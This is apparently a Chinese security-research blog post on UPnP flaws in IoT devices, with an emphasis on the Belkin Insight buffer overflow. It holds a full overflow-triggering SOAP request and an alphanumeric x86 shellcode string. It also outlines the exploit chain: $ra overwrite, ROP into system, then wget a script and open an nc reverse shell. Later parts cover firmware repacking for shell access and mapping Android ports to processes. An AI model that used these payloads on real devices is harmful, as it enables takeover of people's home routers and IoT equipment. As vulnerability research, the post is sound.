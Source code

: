 ```yaml
---
layout: post
title:  "upnp协议漏洞研究"
categories: IOT
tags: IOT
excerpt: upnp协议漏洞研究
mathjax: true
---
```


* content
{:toc}

### Overview

推荐一篇[路由器网关漏洞](https://www.mcafee.com/blogs/other-blogs/mcafee-labs/insight-into-home-automation-reveals-vulnerability-in-simple-iot-product/)

挖掘过程：
1. 提取固件分析
2. fuzz upnp (TCP 49152/49153), 定位漏洞点<EnergyPerUnitCostVersion> 大于32字符会溢出

```
POST /upnp/control/basicevent1 HTTP/1.1
Host: 192.168.225.183:49154
User-Agent: python-requests/2.9.1
Accept: */*
Connection: keep-alive
SOAPAction: “urn:Belkin:service:basicevent:1#UpdateInsightHomeSettings”
Content-Type: text/xml
Accept-Encoding: gzip, deflate
Content-Length: 3253

<?xml version=”1.0″ ?><s:Envelope s:encodingStyle=”http://schemas.xmlsoap.org/soap/encoding/” xmlns:s=”http://schemas.xmlsoap.org/soap/envelope/”><s:Body><b1ack0wl_ns:UpdateInsightHomeSettingsxmlns:b1ack0wl_ns=”urn:Belkin:service:basicevent:1″><EnergyPerUnitCost>210</EnergyPerUnitCost><Currency>236</Currency><EnergyPerUnitCostVersion>KWWZWIVYBQZKDGSSAAPBCQVQQFAVYZEOEUFIDXXQPDYGESTOD
GIJFERXZNMYAFJQLUZPSIJXFQSPADCRIVHDAJLLPQMPLAVECIQUWLXDLIGPLBKCROGPOCVUI
KTSLIIXULOEBVFKWIERCFGHWHCBBDLWFBKBZXAVGRKTDALDNRPOFQJDXAEOC(…snip…)XHU
OUZPCHUBFGLLWSJBFYFOMCGZZMJIQIUVCDETFBRBZVDVKNBVZFBRSVBSZPAYKZYNQZEQPDV
DWSZNDUPUDCPAVWNFBFBTYMXTBNCWTBJPKORUBHBSCQBPOPOBZNVADMGWRI
</EnergyPerUnitCostVersion></b1ack0wl_ns:UpdateInsightHomeSettings></s:Body></s:Envelope>
```

3. 修改/etc/passwd /etc/shadow 重刷固件 获取shell调试
    + 任意地址写
    + 覆盖$RA 控制返回地址
4. 构造ROP 只能传输可显示字符串,过滤出所有的符合条件的地址，从中组合出合适的ROP
    + 没有NX和ASLR 
    + 攻击分两次，一次写入要执行的命令(不覆盖$ra) ,一次设置命令地址为参数后调用system
5. wget 下载脚本执行，使用nc 反弹shell (可能大多数的设备没有这两个程序)

IOT: 挖掘漏洞后 获取程序运行调试信息的问题
UART接口有密码 /etc/passwd 破解不开 ,尝试重新打包文件系统(用同样的squash tools 3.0)，用dd 将文件系统插入固件中，再重新刷入 

x86 下shellcode 
`PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA`

* UPNP 攻击的扩展: 通过javascript 攻击内网的服务

[UPnP曝Filet-O-Firewall漏洞](https://www.freebuf.com/news/77057.html)
[报告](https://securityaffairs.co/wordpress/12095/hacking/security-flaws-in-universal-plug-and-play-expose-million-devices.html)

# 
MiniUPnPd 有大概%69的设备使用，大多是1.0 版本。


### 查找Android中端口的对应进程及文件
例如查询upnp端口 49152 ，转成16进制c000

```
cat /proc/net/tcp6 | grep "c000"
0: 00000000:C000 00000000:0000 0A 00000000:00000000 00:00000000 00000000 10055(uid)        0 17854 1 0000000000000000 100 0 0 10 0
```
取出其中uid 10055 对应着用户 u0_a55
ps 查看
```
u0_a55    4799  3798  1568824 57924 SyS_epoll_ 00000000 S com.hpplay.happyplay.aw
u0_a55    4887  3798  1522792 35844 SyS_epoll_ 00000000 S com.hpplay.happyplay.aw:remote
```

查看包名安装位置
`pm list packages -f`
```
shell@q201:/ $ pm list packages -f | grep happy
package:/data/app/happycast_hmdkey.apk=com.hpplay.happyplay.aw
```


```
$ miranda
upnp> msearch

Entering discovery mode for 'upnp:rootdevice', Ctl+C to stop...

****************************************************************
SSDP reply message from 192.168.1.138:49152
XML file is located at http://192.168.1.138:49152/description.xml
Device is running Linux/3.14.29, UPnP/1.0, Portable SDK for UPnP devices/1.6.13
****************************************************************
```